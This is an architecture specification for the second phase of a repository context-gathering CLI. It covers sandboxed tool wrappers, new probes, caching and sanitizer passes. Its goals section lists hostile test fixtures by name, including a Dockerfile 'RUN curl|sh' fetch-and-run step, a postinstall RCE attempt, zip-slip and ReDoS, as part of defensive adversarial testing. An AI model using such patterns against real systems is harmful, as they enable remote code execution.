


# Phase 02 — Context gathering: Layers B–G: Architecture

**Status:** Architecture spec
**Date:** 2026-05-12
**Inputs:** [`final-design.md`](final-design.md) · [`critique.md`](critique.md) · [`design-performance.md`](design-performance.md) · [`design-security.md`](design-security.md) · [`design-best-practices.md`](design-best-practices.md) · [`../../production/design.md`](../../production/design.md) · [`../../production/adrs/`](../../production/adrs/) · [`../../localv2.md`](../../localv2.md) · [`../../roadmap.md`](../../roadmap.md) · [`../00-bullet-tracer-foundations/`](../00-bullet-tracer-foundations/) · [`../01-context-gather-layer-a-node/`](../01-context-gather-layer-a-node/)
**Audience:** the engineer implementing this phase

---

## Executive summary

Phase 2 **fills the Layer B–G inventory** atop the Phase 0/1 spine (Probe ABC, async Coordinator, content-addressed cache, two-pass `OutputSanitizer`, layered schema, allowlisted `run_in_sandbox`, audit anchor, `ParsedManifestMemo`, `parsers/`). It ships 17 new probes covering semantic indexing (`SCIPIndexProbe`, `IndexHealthProbe`, `NodeReflectionProbe`, `GeneratedCodeProbe`, `BuildGraphProbe`), static + image-time container evidence (`DockerfileProbe`, `SyftSBOMProbe`, `GrypeCVEProbe`, `ShellUsageProbe`, `CertificateProbe`, `EntrypointProbe` — with `RuntimeTraceProbe` shipping class + sub-schema only, `applies()=False`, deferred to Phase 5), organizational data (`RepoConfigProbe`, `SkillsIndexProbe`, `ADRProbe`, `ConventionProbe`, `ExceptionProbe`, `PolicyProbe`, `RepoNotesProbe`, `ExternalDocsProbe`, `ExternalDocsIndexProbe`), one real cross-repo probe (`OwnershipProbe`) with E2–E5 stubs, and SAST + behavioral hints (`SemgrepProbe`, `AstGrepProbe`, `TestCoverageMappingProbe`, `InvariantHintProbe`, `GrepProbe`, `GitleaksProbe`). The phase introduces a `src/codegenie/tools/` chokepoint (one thin wrapper per external CLI returning a Pydantic model), a `src/codegenie/skills/` loader package, a `src/codegenie/catalogs/` expansion (conventions, shell replacements, semgrep rule packs, tool digests), per-file findings sub-caches under `.codegenie/cache/<tool>/by-file/`, and a per-repo `.codegenie/index/scip-index.scip` binary artifact namespace (`final-design.md §"Architecture"`).

Five architectural moves carry this phase: (1) **extend** Phase 1's `run_in_sandbox` chokepoint with `--network=none` default + tighter env-strip + per-tool scoped egress allowlist — no new `SandboxStrategy` interface, no rootless Podman, no local registry mirror (`final-design.md §"Components" #2`, ADR-0003 this phase); (2) **`consumes_peer_outputs: bool` class attribute + frozen-snapshot positional `peer_outputs` arg** to `run()` for `IndexHealthProbe` only, replacing `[B]`'s `ProbeContext.peer_outputs` Mapping mutation (`final-design.md §"Components" #12`, ADR-0001 this phase); (3) **ship Layer C `C1/C2/C3/C5/C6/C7`; defer `C4 RuntimeTraceProbe` as class+schema only with `applies()=False`** so the contract surface is stable but Phase 5 lands the implementation (`final-design.md §"Components" §4`, ADR-0002 this phase); (4) **`OutputSanitizer` Pass 4 (secret-finding BLAKE3 fingerprinter) + Pass 5 (prompt-injection marker tagger)** added as new method calls; existing passes 1–3 unchanged (`final-design.md §"Components" #9`, ADR-0006 this phase); (5) **rolling BLAKE3 audit chain head** under `runs/<utc>.json` plus a `tools/digests.yaml` binary pin manifest cross-checked at install (`final-design.md §"Components" §10`, ADRs 0004 + 0011 this phase).

The phase exits when (a) `codegenie gather` produces a useful `repo-context.yaml` populating every Layer B/C-except-C4/D/E-stub-or-real/G slice on `nestjs/nest` at a pinned SHA with every sub-schema validating, and (b) `IndexHealthProbe` surfaces **three** real staleness cases in CI — `stale_scip_repo/`, `stale_sbom_repo/`, `stale_semgrep_rulepack_repo/` — generalising the roadmap's single-domain requirement (`roadmap.md §"Phase 2"`, `final-design.md §"Goals"`).

## Goals

Verifiable. Pulled from `roadmap.md §"Phase 2"` exit + `final-design.md §"Goals"`, refined for engineering precision.

1. **`codegenie gather` produces a useful `repo-context.yaml` on a real Node.js TypeScript repo with every Layer B/C-except-C4/D/E-stub-or-real/G slice populated.** Verified by `tests/integration/test_phase2_real_oss.py` against `nestjs/nest` at a pinned SHA: SCIP index emitted, semgrep + gitleaks + `BuildGraphProbe` ran, SBOM produced, `IndexHealthProbe` reports `high` confidence on a fresh checkout.
2. **IndexHealthProbe surfaces ≥ 3 real staleness cases in CI.** `tests/integration/test_index_health_staleness_seeded.py` asserts three seeded fixtures (`stale_scip_repo/`, `stale_sbom_repo/`, `stale_semgrep_rulepack_repo/`) each surface `confidence: low` on their specific domain. Exceeds roadmap's "at least one" requirement.
3. **Probe contract preserved (ADR-0007).** Zero edits to `src/codegenie/probes/base.py`'s public field set. `ProbeContext`'s public field set is unchanged in Phase 2; the `peer_outputs` snapshot is passed to `IndexHealthProbe.run()` as a **third positional argument** at coordinator dispatch — only when the probe declares `consumes_peer_outputs = True` (ADR-0001 this phase).
4. **Adversarial robustness — ≥ 60 hostile fixtures, CI-gating.** Phase 1's corpus extends with: SCIP corruption, semgrep ReDoS, gitleaks redaction bypass, `tsconfig extends:` traversal, Dockerfile `RUN curl|sh`, postinstall RCE attempt, prompt-injection marker in `RepoNotesProbe` body, hostile YAML in SKILL.md, zip-slip in `ExternalDocsProbe`, treesitter grammar mismatch, audit-chain break, concurrent cache poisoning.
5. **Hard caps in every Phase 2 parser (in-process, fail-loud).** SCIP index ≤ 200 MB; semgrep findings JSON ≤ 50 MB; gitleaks findings JSON ≤ 10 MB; SBOM JSON ≤ 20 MB; CVE JSON ≤ 10 MB; markdown body ≤ 5 MB per file; tree-sitter per-file parse wall-clock ≤ 5 s; per-probe wall-clock ≤ `timeout_seconds` (Phase 0 coordinator enforces). Cap breach → typed exception → `ProbeOutput(confidence="low", errors=[...])`.
6. **Per-file findings cache invariant.** Semgrep, gitleaks, tree-sitter findings cache at `(file_content_blake3, rule_pack_version, grammar_version)`. **Cross-file taint mode is opt-in only via `--paranoid` and bypasses the per-file cache.**
7. **Tool-digest pinning.** `src/codegenie/catalogs/tools/digests.yaml` enumerates SHA-256 digests for `scip-typescript`, `semgrep`, `syft`, `grype`, `gitleaks` plus tree-sitter grammar wheel hashes; cache keys for Phase 2 probes include the relevant tool digest; CI verifies binary digests on every install; a drift fails the release gate (ADR-0004 this phase).
8. **Subprocess sandbox profile (Linux + macOS parity).** Every Phase 2 external CLI invocation routes through Phase 1's `run_in_sandbox` with `--network=none` default; `network="scoped"` opt-in for `grype db update` only; per-tool egress allowlist (registry host for base-image pulls; nothing else); `--unsetenv` strip extended to `OPENAI_API_KEY`, `ANTHROPIC_API_KEY`, `CHAINGUARD_TOKEN`, `GITHUB_TOKEN`, `AWS_*`. **No new `SandboxStrategy` interface; no rootless Podman; no `codegenie/probe-runtime` image; no local registry mirror** (ADR-0003 this phase).
9. **`--strict` CLI flag.** `codegenie gather --strict` exits non-zero (code 3) if any `IndexHealthProbe` domain reports `confidence: low`. Default behavior (no `--strict`) is exit 0 with a `confidence_summary` slice surfacing the degradation. CI uses `--strict` against the seeded-staleness fixtures.
10. **Wall-clock targets (advisory, surfaced via Phase 0 bench infra; not PR-blocking).**
    - Cold gather on the 1k-file `nestjs/nest` fixture (every Phase 0+1+2 probe cache-miss; C4 skipped): p50 ≤ 90 s, p95 ≤ 150 s. Dominated by SCIP indexing (~25 s), `docker build + syft` (~30 s), semgrep (~15 s).
    - Warm gather (all cache hits): p50 ≤ 1.5 s, p95 ≤ 3 s.
    - Incremental gather (one TS file changed): p50 ≤ 4 s, p95 ≤ 8 s.
11. **`IndexHealthProbe` advisory budget (200 ms target, no hard kill).** Budget breach emits `index_health.budget_exceeded: true` for observability; gather continues. A 25% mean-wall-clock regression on B2 across the bench fixtures fails the PR (advisory bench gate).
12. **No outbound network from `codegenie/`.** Phase 0's `fence` CI job extended: no `httpx`/`requests`/`socket`/`urllib3` under `src/codegenie/`; the only Phase 2 outbound network is `grype db update` invoked via the sandboxed subprocess on cache miss; `ExternalDocsProbe` URL mode is deferred (filesystem-only in Phase 2, ADR-0009 this phase).
13. **Tokens per run = 0.** Phase 0 `fence` job continues to assert; extended to forbid `tantivy` ML deps if ever added (ADR-0010 this phase).
14. **Extension by addition.** Phase 2 adds **only new files** under `src/codegenie/{probes,tools,skills,catalogs,schema/probes}/`, `tests/{unit,adv,integration,golden,bench}/`, `tests/fixtures/`. The four ADR-gated in-place edits to Phase 0/1:
    - `src/codegenie/probes/__init__.py` — 17 new `from . import ...` lines (the documented extension seam).
    - `src/codegenie/exec.py` — six entries added to `ALLOWED_BINARIES` (`scip-typescript`, `semgrep`, `syft`, `grype`, `gitleaks`, `docker`) (ADR-0005 this phase).
    - `src/codegenie/output_sanitizer.py` — Pass 4 (fingerprinter) and Pass 5 (marker tagger) added as new method calls (ADR-0006 this phase).
    - `src/codegenie/coordinator.py` — one branch in the dispatch loop for `consumes_peer_outputs = True` probes; no change to `ProbeContext` public field set (ADR-0001 this phase).
15. **No new architectural infrastructure beyond the single Python CLI.** No DaemonPool, no SandboxStrategy interface, no local registry mirror, no probe-runtime image, no `views.json` artifact, no MCP shim — all rejected per the Phase 1 precedent and ADR-0019's open status.

## Non-goals

Anti-scope. Each item is annotated with why it's out of scope and where it lands.

1. **No `RuntimeTraceProbe (C4)` implementation.** The probe **class** lands with `applies()=False` and the sub-schema declares `runtime_trace: {status: "deferred_to_phase_5"}` (ADR-0002 this phase). Phase 5 owns the implementation alongside the sandbox-stack ADR-0019 resolution. `B2` reports the domain as `status: "not_applicable"`, not `not_run`, so the seeded-staleness signal is not drowned (`final-design.md` critic cross-design observation #2 closure).
2. **No `DaemonPool` (long-lived scip-typescript/semgrep daemons)** [P]. Smuggles cross-gather state into cache keys and violates determinism (critic §P.1, ADR-0006 production). The wrapper-per-tool + per-file findings sub-cache pattern is the substitute (`final-design.md §"Conflict-resolution table" D1`).
3. **No new `SandboxStrategy` interface / rootless Podman / local registry mirror / `codegenie/probe-runtime` image** [S]. ADR-0019 (sandbox stack) is explicitly deferred. Phase 1's `run_in_sandbox` chokepoint extended in place; Phase 5/14 land microVM **at the same chokepoint**, no probe-code changes (`final-design.md §"Conflict-resolution table" D2`, ADR-0003 this phase).
4. **No `BuildGraphProbe` package-manager ban** [S]. Emits a fabricated graph dressed as evidence (critic §S.1). Phase 2 ships `pnpm list -r --ignore-scripts` with `resolution_status: {static_only | resolved | resolved_with_discrepancy}` so consumers distinguish declared vs resolved (ADR-0007 this phase).
5. **No `pnpm list` without `--ignore-scripts`** [B]. Opens postinstall RCE (critic §B-2). Wrapper enforces `--ignore-scripts`; CI fixture `test_buildgraph_postinstall_blocked.py` asserts the protection end-to-end (ADR-0007 this phase).
6. **No `scip-typescript` `npm install` invocation.** Conditional `node_modules` mount: read-only into sandbox if present; never created (closes postinstall RCE while preserving evidence quality where the user committed `node_modules` or CI runs `npm ci --ignore-scripts` outside the gather) (`final-design.md §"Conflict-resolution table" D3`).
7. **No `IndexHealthProbe` hard kill / gather-fail circuit breaker.** [P]'s 50 ms `asyncio.wait_for` hard budget is rejected (unachievable with `git rev-list` in the loop; permanent degradation). [S]'s "B2 fails the gather on missing dep" is rejected (converts hygiene probe into global circuit breaker, breaks `localv2.md §3` failure isolation). 200 ms advisory budget + `--strict` flag for CI hard-fail (`final-design.md §"Conflict-resolution table" D4/D5`).
8. **No `ProbeContext.peer_outputs: Mapping`** [B]. Mutates the Phase-0 dataclass shape (critic §B-3). Replaced by opt-in `consumes_peer_outputs` class attribute + frozen-snapshot positional arg (`final-design.md §"Conflict-resolution table" D6`, ADR-0001 this phase).
9. **No `tantivy` as a default dependency.** Opt-in extra `pip install codegenie[search]` (ADR-0010 this phase); default BM25 engine is ripgrep. Avoids dead-code-by-default (critic §P.5, §B-5).
10. **No `ExternalDocsProbe` URL fetcher / Confluence / Notion integration in Phase 2.** Filesystem-only sources. SSRF guard + private-IP-deny-list + scoped fetch sandbox is significant infra; deferred to v0.2 / `localv2.md §12 Week 5 stretch` (ADR-0009 this phase).
11. **No `mmap` for SCIP / semgrep findings reads.** Phase 0/1 deferred; remains deferred. Caps fire before files become large enough for mmap to help.
12. **No release-versioning policy for per-probe sub-schemas in Phase 2.** Phase 1 deferred this; Phase 3 will introduce when the first cross-phase sub-schema change is anticipated. Sub-schemas in Phase 2 are v1.
13. **No catalog DSL expansion.** `detect.type` in conventions catalog stays a **closed enum**; new types require code + schema bump in the same PR; CI lint asserts parity (ADR-0008 this phase).
14. **No `SkillsIndexProbe` body inlining.** Body is **never loaded into memory**; only `body_char_count` from `stat()` (progressive disclosure, ADR-0007 production preserved).
15. **No `MCP` server topology shim in Phase 2.** Phase 8 owns the MCP topology; Phase 14 owns the per-stage split. Phase 2 emits `risk_flags` and `confidence_summary` slices in their canonical Phase 8 shape so Phase 8's projection is a dict-copy (no shape change required when MCP lands).

## Architectural context

Phase 2 sits between Phase 1's Layer A inventory and Phase 3's first end-to-end deterministic transform. It is the first phase that **executes foreign code on hostile input at scale** — `scip-typescript`, `semgrep`, `gitleaks`, `syft`, `grype`, `docker build`, tree-sitter grammars all load attacker-controlled bytes (`final-design.md §"Lens summary"`). The threat model jumps a category from Phase 1 (which only parsed adversarial bytes); the architectural response is the `tools/` chokepoint with one wrapper per CLI plus the extended `run_in_sandbox` profile.



Every Phase 0/1 box is `unchanged` except for four ADR-gated edits: the registry import seam, the `ALLOWED_BINARIES` extension, `OutputSanitizer` Pass 4/5 additions, and one coordinator dispatch branch for `consumes_peer_outputs`. The Phase 5/14 promotions land at the **same** `run_in_sandbox` chokepoint with no probe-code changes — that's the architectural promise this phase preserves (`final-design.md §"Architecture"` observation 3).

## 4+1 architectural views

Following `production/design.md §8` conventions and the Phase 0/1 `phase-arch-design.md` precedent.

### Logical view — components and relationships

```mermaid
classDiagram
  class Probe {
    <<abstract; Phase 0 frozen §4>>
    +name: str
    +declared_inputs: list~str~
    +applies_to_languages: list~str~
    +applies_to_tasks: list~str~
    +requires: list~str~
    +timeout_seconds: int
    +applies(snapshot) bool
    +run(snapshot, ctx) ProbeOutput
    +consumes_peer_outputs: bool = False
  }

  class IndexHealthProbe {
    <<Phase 2 NEW — opt-in peer_outputs>>
    +consumes_peer_outputs = True
    +run(snapshot, ctx, peer_outputs)
  }

  class SCIPIndexProbe
  class NodeReflectionProbe
  class GeneratedCodeProbe
  class BuildGraphProbe
  class DockerfileProbe
  class SyftSBOMProbe
  class GrypeCVEProbe
  class RuntimeTraceProbe {
    <<class only; applies()=False>>
  }
  class ShellUsageProbe
  class CertificateProbe
  class EntrypointProbe
  class RepoConfigProbe
  class SkillsIndexProbe
  class ADRProbe
  class ConventionProbe
  class ExceptionProbe
  class PolicyProbe
  class RepoNotesProbe
  class ExternalDocsProbe
  class ExternalDocsIndexProbe
  class OwnershipProbe
  class SemgrepProbe
  class AstGrepProbe
  class TestCoverageMappingProbe
  class InvariantHintProbe
  class GrepProbe
  class GitleaksProbe

  class Coordinator {
    <<Phase 0/1; ONE new dispatch branch>>
    +gather(snapshot, task, probes, ctx, cache, sanitizer) GatherResult
    -dispatch(probe, ctx, peer_outputs_snapshot) ProbeOutput
  }

  class ToolsPackage {
    <<Phase 2 NEW src/codegenie/tools/>>
    +semgrep.run(opts) SemgrepResult
    +syft.run(opts) SyftResult
    +grype.run(opts) GrypeResult
    +gitleaks.run(opts) GitleaksResult
    +scip_typescript.run(opts) ScipResult
    +treesitter.query(opts) TreesitterResult
    +docker.build(opts) DockerBuildResult
  }

  class SkillsLoader {
    <<Phase 2 NEW src/codegenie/skills/>>
    +discover_skills(roots: Sequence~Path~) SkillIndex
    +Skill (Pydantic model)
    +schema/skill.schema.json
  }

  class CatalogsExpansion {
    <<Phase 2 NEW under src/codegenie/catalogs/>>
    +conventions/node.yaml + _schema.json
    +shell_replacements/node.yaml + _schema.json
    +semgrep_rule_packs.yaml
    +tools/digests.yaml (SHA-256 pins)
  }

  class OutputSanitizer {
    <<Phase 0; TWO new passes>>
    +pass1_field_name_regex (P0)
    +pass2_path_scrub (P0)
    +pass3_size_depth_cap (P1)
    +pass4_secret_fingerprinter (P2 NEW)
    +pass5_prompt_injection_marker (P2 NEW)
  }

  class RunInSandbox {
    <<Phase 0/1; profile extended>>
    +run(argv, *, allowlist, env, timeout_s, cwd, network, ...) ProcessResult
    -network: Literal["none", "scoped"] = "none"
  }

  class AuditWriter {
    <<Phase 0; chain head appended>>
    +write(record) None
    +chain_head_blake3: bytes (P2 NEW rolling)
    +verify_previous_head() None (on next start)
  }

  class PerFileFindingsCache {
    <<Phase 2 NEW under .codegenie/cache/>>
    +semgrep/by-file/&lt;blake3&gt;.&lt;rule_pack_version&gt;.msgpack
    +gitleaks/by-file/&lt;blake3&gt;.msgpack
    +tree-sitter/by-file/&lt;blake3&gt;.&lt;grammar_version&gt;.msgpack
  }

  class SCIPIndexNamespace {
    <<Phase 2 NEW under .codegenie/index/>>
    +scip-index.scip (per-repo binary;<br/>rewritten in place;<br/>NOT under cache/)
  }

  Probe <|-- IndexHealthProbe
  Probe <|-- SCIPIndexProbe
  Probe <|-- NodeReflectionProbe
  Probe <|-- GeneratedCodeProbe
  Probe <|-- BuildGraphProbe
  Probe <|-- DockerfileProbe
  Probe <|-- SyftSBOMProbe
  Probe <|-- GrypeCVEProbe
  Probe <|-- RuntimeTraceProbe
  Probe <|-- ShellUsageProbe
  Probe <|-- CertificateProbe
  Probe <|-- EntrypointProbe
  Probe <|-- RepoConfigProbe
  Probe <|-- SkillsIndexProbe
  Probe <|-- ADRProbe
  Probe <|-- ConventionProbe
  Probe <|-- ExceptionProbe
  Probe <|-- PolicyProbe
  Probe <|-- RepoNotesProbe
  Probe <|-- ExternalDocsProbe
  Probe <|-- ExternalDocsIndexProbe
  Probe <|-- OwnershipProbe
  Probe <|-- SemgrepProbe
  Probe <|-- AstGrepProbe
  Probe <|-- TestCoverageMappingProbe
  Probe <|-- InvariantHintProbe
  Probe <|-- GrepProbe
  Probe <|-- GitleaksProbe

  SCIPIndexProbe --> ToolsPackage : tools.scip_typescript.run
  SemgrepProbe --> ToolsPackage : tools.semgrep.run
  SyftSBOMProbe --> ToolsPackage : tools.syft.run + tools.docker.build
  GrypeCVEProbe --> ToolsPackage : tools.grype.run
  GitleaksProbe --> ToolsPackage : tools.gitleaks.run
  NodeReflectionProbe --> ToolsPackage : tools.treesitter.query
  AstGrepProbe --> ToolsPackage : tools.treesitter.query
  GeneratedCodeProbe --> ToolsPackage : tools.treesitter.query (ambiguous files only)
  BuildGraphProbe --> ToolsPackage : pnpm list --ignore-scripts (via tools)

  ToolsPackage --> RunInSandbox : every external CLI
  Coordinator --> RunInSandbox : sandbox profile config
  Coordinator --> OutputSanitizer : per-probe output flows through passes 1..5
  Coordinator --> AuditWriter : per-gather audit record
  Coordinator --> PerFileFindingsCache : reads + writes per-file blobs
  IndexHealthProbe ..> Coordinator : receives frozen peer_outputs snapshot

  SkillsIndexProbe --> SkillsLoader
  ConventionProbe --> CatalogsExpansion : conventions/node.yaml
  ShellUsageProbe --> CatalogsExpansion : shell_replacements/node.yaml
  SemgrepProbe --> CatalogsExpansion : semgrep_rule_packs.yaml
  SCIPIndexProbe --> SCIPIndexNamespace : writes scip-index.scip
  TestCoverageMappingProbe --> SCIPIndexNamespace : reads scip-index.scip
```



**Central abstractions:** Phase 0's `Probe` ABC (one new optional class attribute), Phase 0's `Coordinator` (one new dispatch branch), Phase 0's `OutputSanitizer` (two new passes), Phase 1's `run_in_sandbox` (extended profile, same signature). **Three new top-level packages:** `tools/` (one wrapper per external CLI), `skills/` (loader, models, schema), and the `catalogs/` expansion under the Phase 1 catalog directory. **Two new on-disk namespaces:** `.codegenie/cache/<tool>/by-file/` (per-file findings sub-caches keyed on file BLAKE3) and `.codegenie/index/scip-index.scip` (per-repo binary artifact, rewritten in place; never under `cache/` because its lifecycle is per-repo not per-gather). The 17 new probes are siblings, each owning one disjoint slice; only `IndexHealthProbe` declares `consumes_peer_outputs = True` (`final-design.md §"Components" #12`).

### Process view — runtime

Representative cold gather on a Node.js TypeScript fixture extended with `.codegenie/skills/`, semgrep rule packs, a SKILL.md, conventions YAML, Dockerfile, multi-package pnpm workspace, repo notes with a prompt-injection marker, and external docs.

```mermaid
sequenceDiagram
  autonumber
  actor User
  participant CLI as codegenie.cli (P0)
  participant Co as Coordinator (P0/1 + 1 new branch)
  participant SL as SkillsLoader (P2 NEW)
  participant LD as LanguageDetection (P0/1)
  participant LA as Layer A probes (P1)
  participant SCIP as SCIPIndexProbe
  participant NR as NodeReflection
  participant BG as BuildGraphProbe
  participant DF as DockerfileProbe
  participant SBOM as SyftSBOMProbe
  participant CVE as GrypeCVEProbe
  participant SEM as SemgrepProbe
  participant GL as GitleaksProbe
  participant LD2 as Layer D probes
  participant IH as IndexHealthProbe
  participant San as OutputSanitizer (passes 1-5)
  participant Sch as SchemaValidator (P0 + sub-schemas + cross-probe if/then)
  participant W as Writer + AuditWriter (P0; chain head P2)

  User->>CLI: codegenie gather /repo --skills-root ~/.codegenie/skills
  CLI->>CLI: tool-readiness (git, node, scip-typescript, semgrep,<br/>syft, grype, gitleaks, docker, bwrap/sandbox-exec)
  CLI->>SL: discover_skills(roots = [resolved abs paths])
  SL-->>CLI: SkillIndex (manifests only; bodies on disk)
  CLI->>W: verify_previous_chain_head() (audit)
  W-->>CLI: ok OR audit.chain_break_detected (observability only)
  CLI->>Co: gather(snapshot, task, probes=23 active, ctx, cache, sanitizer)

  Note over Co: Wave 1 — LanguageDetection (Phase 0 gap-#4 resolution preserved)
  Co->>LD: run
  LD-->>Co: language_stack (TS), monorepo=true, frameworks

  Note over Co: Wave 2 — Phase 1 Layer A probes (parallel)
  Co->>LA: dispatch 5 probes
  LA-->>Co: build_system, manifests, ci, deployment, test_inventory

  Note over Co: Wave 3 — Phase 2 Layer B (parallel; SCIP dominates)
  par Layer B parallel
    Co->>SCIP: run (network=none; node_modules read-only if present)
    SCIP->>SCIP: tools.scip_typescript.run → .codegenie/index/scip-index.scip<br/>parent re-validates SCIP grammar
  and
    Co->>NR: run; per-file tree-sitter cache hits for unchanged files
  and
    Co->>BG: run (pnpm list -r --ignore-scripts; resolution_status field)
  end
  SCIP-->>Co: ProbeOutput(scip_index manifest + sub-cache key)
  NR-->>Co: reflection slice
  BG-->>Co: build_graph (declared + resolved + resolution_status)

  Note over Co: Wave 4 — Layer C (requires Dockerfile)
  Co->>DF: run (dockerfile python lib; pure-Python)
  DF-->>Co: dockerfile slice
  Co->>SBOM: run (sandbox: docker build network=none for build;<br/>scoped for base-image pull)
  SBOM->>SBOM: tools.docker.build → image digest →<br/>tools.syft.run → SBOM JSON
  SBOM-->>Co: sbom slice
  Co->>CVE: run (sandbox: scoped network for grype db update on cache miss)
  CVE-->>Co: cve slice
  Note over Co: ShellUsageProbe + CertificateProbe + EntrypointProbe<br/>consume dockerfile output (synthesize evidence)

  Note over Co: Wave 5 — Layer G (semgrep, gitleaks parallel; per-file cache)
  par
    Co->>SEM: run (per-file findings cache by content_blake3 + rule_pack_version)
    SEM->>SEM: rule packs pre-warmed; SEMGREP_RULES_CACHE pinned; --disable-version-check
  and
    Co->>GL: run (--redact mandatory; PR-mode w/ baseline if Phase 14 trigger)
  end

  Note over Co: Layer D — pure-Python YAML/markdown reads (mostly Tier-0)
  Co->>LD2: dispatch RepoConfig, SkillsIndex, ADR, Convention,<br/>Exception, Policy, RepoNotes, ExternalDocs, ExternalDocsIndex
  LD2-->>Co: 9 slices; RepoNotes + ExternalDocs bodies in raw/ at 0600<br/>NOT inlined into YAML

  Note over Co: Wave 6 — IndexHealthProbe runs last; receives FROZEN peer_outputs
  Co->>Co: build frozen snapshot of all peer ProbeOutputs<br/>(post-sanitizer; immutable)
  Co->>IH: run(snapshot, ctx, peer_outputs)
  IH->>IH: per-domain commits_behind, coverage_pct, tool_digest_in_use,<br/>confidence ∈ {high, medium, low};<br/>single in-process git rev-list --count call<br/>runtime_trace domain → status: not_applicable
  IH-->>Co: index_health slice (200 ms advisory; no hard kill)

  Note over Co: OutputSanitizer 5 passes (Phase 0 1+2 unchanged;<br/>Phase 1 pass 3 size/depth cap;<br/>Phase 2 pass 4 secret fingerprinter; pass 5 prompt-injection marker tagger)
  Co->>San: scrub every ProbeOutput
  San-->>Co: sanitized outputs
  Co-->>CLI: GatherResult

  CLI->>CLI: shallow-merge slices into envelope
  CLI->>Sch: validate envelope + 17 sub-schemas +<br/>cross-probe if/then dependency rule
  Sch-->>CLI: ok
  CLI->>W: write repo-context.yaml + raw/ + scip-index.scip
  CLI->>W: append audit record + rolling BLAKE3 chain head
  CLI-->>User: exit 0 (OR exit 3 if --strict and B2 domain low)
```

**Concurrency** is at each Wave's `par` block. **Blocking** is dominated by `SCIPIndexProbe` (~25 s p50 on 1k-file fixture; no DaemonPool, no incremental — full re-index on every TS-source change) and `SyftSBOMProbe` (~30 s including `docker build`). **`IndexHealthProbe` runs last** so its frozen peer-output snapshot is consistent: every peer probe's `ProbeOutput` has already passed through passes 1–5 of the sanitizer; the snapshot is immutable; the third positional arg to `IH.run()` is a typed mapping the coordinator constructs once per gather (`final-design.md §"Components" #12`).

**The `--strict` exit-code mapping** (CLI layer): if any `index_health.<domain>.confidence == "low"`, CLI exits with code 3; envelope is still written. Default (no `--strict`) exits 0 with `confidence_summary` slice surfacing the degradation (ADR-0012 this phase).

### Development view — source organization

```mermaid
graph TD
  Root["codewizard-sherpa/<br/>(unchanged at top-level)"]
  Root --> Src["src/codegenie/"]
  Root --> Tests["tests/"]
  Root --> Phase2Docs["docs/phases/02-context-gather-layers-b-g/<br/>(this folder)"]

  Src --> Probes["probes/<br/>(P0/1; entries added; 17 new files)"]
  Probes --> P0Probes["base.py (FROZEN — P0;<br/>consumes_peer_outputs class attr added as<br/>optional ClassVar default False — ADR-0001)<br/>registry.py (FROZEN)<br/>__init__.py (17 new imports — P2)<br/>language_detection.py (FROZEN; P1 extension already landed)"]
  Probes --> LayerB["Layer B (5 files):<br/>scip_index.py<br/>index_health.py<br/>node_reflection.py<br/>generated_code.py<br/>build_graph.py"]
  Probes --> LayerC["Layer C (7 files):<br/>dockerfile.py<br/>syft_sbom.py<br/>grype_cve.py<br/>runtime_trace.py (applies()=False)<br/>shell_usage.py<br/>certificate.py<br/>entrypoint.py"]
